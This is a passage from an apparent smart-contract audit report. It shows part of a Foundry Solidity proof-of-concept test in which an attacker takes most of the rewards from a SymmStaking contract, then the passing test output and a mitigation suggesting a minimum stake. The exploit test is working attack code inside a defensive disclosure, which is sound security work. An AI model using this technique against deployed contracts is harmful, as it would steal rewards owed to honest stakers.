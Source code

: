 ```solidity

        vm.warp(block.timestamp + 5 days);

        vm.startPrank(bob);
        mockSymmioToken.approve(address(symmStaking), type(uint256).max);
        symmStaking.deposit(1000e18, bob);
        vm.stopPrank();

        vm.warp(block.timestamp + 5 days);

        uint256 aliceEarned = symmStaking.earned(alice, address(mockRewardToken));
        uint256 bobEarned = symmStaking.earned(bob, address(mockRewardToken));
        uint256 attackerEarned = symmStaking.earned(attacker, address(mockRewardToken));

        console.log("Alice earned:", aliceEarned);
        console.log("Bob earned:", bobEarned);
        console.log("Attacker earned:", attackerEarned);

        vm.startPrank(attacker);
        symmStaking.claimRewards();
        vm.stopPrank();

        assertEq(mockRewardToken.balanceOf(attacker), 7142857142857142688002);
    }
}
```

```solidity
The result:
forge test -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/stakingAttack.t.sol:SymmStakingAttack
[PASS] test_attack() (gas: 443279)
Logs:
  Alice earned: 2857142857142857075000
  Bob earned: 0
  Attacker earned: 7142857142857142688002

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.46ms (298.08µs CPU time)

Ran 1 test suite in 5.31ms (1.46ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Implement a minimum stake amount requirement (e.g., 10e18 tokens) to prevent reward rate manipulation from minimal stakes.